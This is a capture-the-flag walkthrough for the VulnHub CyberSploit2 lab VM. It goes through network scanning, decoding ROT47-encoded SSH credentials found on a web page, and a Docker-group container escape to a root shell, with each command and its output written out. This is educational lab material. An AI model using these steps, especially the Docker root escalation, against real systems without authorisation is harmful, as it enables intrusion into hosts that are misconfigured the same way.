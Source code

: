 ```yaml
---
title: CyberSploit 2 Vulnhub Walkthrough
date: 2024-04-15
categories: [Walkthrough]
tags: [Walkthrough, CTF, VulnHub]
---
```


## CyberSploit 2

This walkthrough guides you through the process of gaining root access on the CyberSploit2 boot2root virtual machine (VM) from Vulnhub. CyberSploit2 is the second part of the CyberSploit Series.

## Download the VM

- **Download the CyberSploit2 VM (size: 1.2 GB)** 
  - [Download Now](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

## Walkthrough

### 1. Discover Target Machine IP Address

Once the VM is running, determine its IP address using the 'arp-scan' utility:

```bash
┌──(root㉿neo)-[~]
└─# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:43:93:3b, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.4	08:00:27:ee:18:51	PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.003 seconds (127.81 hosts/sec). 1 responded
```

### 2. Scan for Open Ports

Use Nmap to scan for open ports on the target machine (replace `<target_IP>` with the VM's IP address obtained in the previous step):

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 192.168.1.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 08:47 IST
Nmap scan report for 192.168.1.4
Host is up (0.00053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:EE:18:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.53 ms 192.168.1.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### 3. Enumerate HTTP Service

Explore the identified HTTP service (e.g., browse to `http://<target_IP>` in a web browser).

![Webpage Screenshot](path/to/screenshot.png)

Here You Can See In The Image on Line 4 `D92:=6?5C2` & `4J36CDA=@:E` Hashes 

![Source Code Screenshot](oath/to/screenshot.png)

The webpage source code 126 line  `<!----------ROT47---------->`  giving a hinit for line 4 is `rot47` format hash.

#### Let's Crack The Hash Using ROT47

```bash
┌──(root㉿neo)-[~]
└─# echo "D92:=6?5C2" | tr '!-~' 'P-~!-O'

shailendra
```

### Cracking the Second Hash

```bash
┌──(root㉿neo)-[~]
└─# cat hash.txt | tr '!-~' 'P-~!-O'       

cybersploit1
```

The hashes are cracked:
- Username: `shailendra`
- Password: `cybersploit1`

#### 4. Login to SSH

Attempt to login to SSH using the discovered credentials:

```bash
┌──(root㉿neo)-[~]
└─# ssh shailendra@192.168.1.4
shailendra@192.168.1.4's password: 
Last login: Mon Apr 15 08:34:27 2024 from 192.168.1.8
[shailendra@localhost ~]$ 
```

#### 5. Obtain User Flag

Explore the user account for further clues and locate the user flag.

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
[shailendra@localhost ~]$ 
```

#### 6. Escalate Privileges via Docker

Search for Docker-related vulnerabilities using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

Execute Docker commands to escalate privileges to root:

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
sh-4.4# 
```

#### 7. Find the Root Flag

Navigate to the `/root` directory and locate the root flag:

```bash
sh-4.4# ls /root
anaconda-ks.cfg  flag.txt  get-docker.sh  logs
sh-4.4# cat /root/flag.txt
__    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/

 |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
sh-4.4# 
```

## Conclusion

Congratulations! You have successfully rooted the CyberSploit2 VM from Vulnhub.
